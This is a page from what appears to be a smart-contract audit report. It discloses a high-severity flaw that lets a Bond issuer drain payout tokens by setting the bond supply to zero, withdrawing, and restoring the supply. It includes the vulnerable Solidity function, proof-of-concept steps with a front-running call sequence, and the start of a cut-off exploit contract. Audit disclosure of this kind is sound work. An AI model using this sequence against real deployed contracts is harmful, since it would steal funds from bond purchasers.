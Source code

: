The issuer can withdraw the excess number of payout tokens by means of the `withdrawExcessPayout()` function. The only condition is that there must be enough tokens left in the contract to cover purchased and not yet redeemed bonds. However, this condition can be bypassed by decreasing the bonds supply to 0 or to the number of redeemed bonds. In such case, the issuer can withdraw all remaining tokens transferred previously to the contract.

```solidity

    function withdrawExcessPayout() external onlyOwner nonReentrant {
        Types.BondLifecycle memory lifecycleTmp = lifecycle;
        IERC20 payoutTokenTmp = payoutToken;

        // calculate for purchase but not redeemed bonds + potential purchases
        uint256 totalPayout = (lifecycleTmp.totalBonds - lifecycleTmp.redeemed) * payoutAmount;
        uint256 currentBalance = payoutTokenTmp.balanceOf(address(this));
        if (currentBalance <= totalPayout) Errors.revertOperation(Errors.Code.ACTION_BLOCKED);

        uint256 excessPayout = currentBalance - totalPayout;
        payoutTokenTmp.safeTransfer(owner(), excessPayout);

        emit WithdrawExcessPayout(excessPayout);
    }
```

**Severity**: High

### Proof of Concept:

1. As an owner, deploy and configure the protocol.
2. As an issuer, issue `Bond` instance with incentive parameters.
3. As an issuer, transfer some incentive amount of payout tokens to the `Bond` contract.
4. As a purchaser, attempt to purchase some bonds. Firstly, call the `approve()`/`increaseApproval()` function to initiate the process.
5. As a user, observe the mempool and notice the above transaction, manually or by means of contract trigger such sequence of operations:
- `bond.updateBondSupply(0);`
- `bond.withdrawExcessPayout();`
- `bond.updateBondSupply(100); //or any sufficient amount`
6. Observe the Bond contract state. Note that payout token is withdrawn from the contract.
7. As a purchaser, finish the purchase process by calling the `purchase()` function.
8. Observe the protocol state. Notice that majority of purchase tokens are transferred to the issuer and small part to the `Vault`.

```solidity
contract BondFrontRunner {
    Bond bond;
    Issuer immutable issuer;
    address immutable purchaseToken;
    address immutable payoutToken;

    constructor (
        Issuer _issuer,
        address _purchaseToken, 
        address _payoutToken
    ) public {
        issuer = _issuer;
        purchaseToken = _purchaseToken;
        payoutToken = _payoutToken;
    }

    function setBond(Bond _bond) public { 
        bond = _bond;
    }

    function issue() public payable {
        uint40 totalBonds = 100;
```